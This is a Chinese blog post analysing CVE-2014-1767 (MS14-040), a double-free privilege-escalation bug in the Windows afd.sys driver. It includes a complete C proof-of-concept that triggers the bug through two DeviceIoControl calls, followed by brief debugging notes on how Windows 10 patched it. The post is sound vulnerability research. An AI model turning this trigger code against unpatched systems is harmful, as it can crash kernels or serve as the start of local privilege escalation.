

# CVE-2014-1767(MS14-040)漏洞分析 - 紅人 - 博客园

> 原文：[`www.cnblogs.com/feizianquan/p/15972648.html`](https://www.cnblogs.com/feizianquan/p/15972648.html)

### 0x00 漏洞信息

分析系统：win7 sp1

漏洞文件：afd.sys

漏洞名称：Windows Ancillary Function Driver for WinSock Elevation of Privilege Vulnerability

漏洞类型：本地权限提升

### 0x01 漏洞分析

这是一个 Double free 漏洞 把 Double free 转换成 uaf  漏洞 简单点就是 释放重引用

漏洞位置在  前面是控制码  后面是对应的函数

0x1207F：afd!AfdTransmitFile

0x120C3：afd!AfdTransmitPackets

逐步分析这 2 个函数 漏洞原因  详细文章已经很多了 就不在分析了 可以看下面地址的应该是网上写的最详细的

https://www.cnblogs.com/flycat-2016/p/5450275.html

https://www.cnblogs.com/flycat-2016/p/5450328.html

这里看一下 win10 修复措施 根据 poc 调试一下看如何修复的 

调试的操作系统是 win10  64 位 21h2

poc

```
#include<windows.h> #include<stdio.h>
//#include <ws2def.h>
#pragma comment(lib,"WS2_32.lib")

int main()
{
    DWORD targetSize = 0x310;
    DWORD virtualAddress = 0x13371337;
    DWORD mdlSize = (0x4000 * (targetSize - 0x30) / 8) - 0xFFF0 - (virtualAddress & 0xFFF); static DWORD inbuf1[100];
    memset(inbuf1, 0, sizeof(inbuf1));
    inbuf1[6] = virtualAddress;
    inbuf1[7] = mdlSize;
    inbuf1[10] = 1; static DWORD inbuf2[100];
    memset(inbuf2, 0, sizeof(inbuf2));
    inbuf2[0] = 1;
    inbuf2[1] = 0x0AAAAAAA;
    WSADATA WSAData;
    SOCKET s;
    sockaddr_in sa; int ierr;
    WSAStartup(0x2, &WSAData);
    s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    memset(&sa, 0, sizeof(sa));
    sa.sin_port = htons(135);
    sa.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
    sa.sin_family = AF_INET;
    ierr = connect(s, (const struct sockaddr*)&sa, sizeof(sa)); static char outBuf[100];
    DWORD bytesRet;
    __debugbreak();
    DeviceIoControl((HANDLE)s, 0X1207F, (LPVOID)inbuf1, 0x40, outBuf, 0, &bytesRet, NULL);
    DeviceIoControl((HANDLE)s, 0X120C3, (LPVOID)inbuf2, 0x18, outBuf, 0, &bytesRet, NULL); return 0;
}
```

在 AfdTransmitPackets 和 AfdTransmitFile 下断点看  判断是否是 32 位


 32 位长度不能小于 0x30 64 位传入长度不能小于 0x40  


 3 环地址验证


接着创建 tpinfo

 

后面就是调用报错 在释放后  关键点 count 被清除


 

 接着就是 AfdTransmitPackets 调试 长度限制



 让后就是 关键判断了  count 已经被清除不会走释放代码

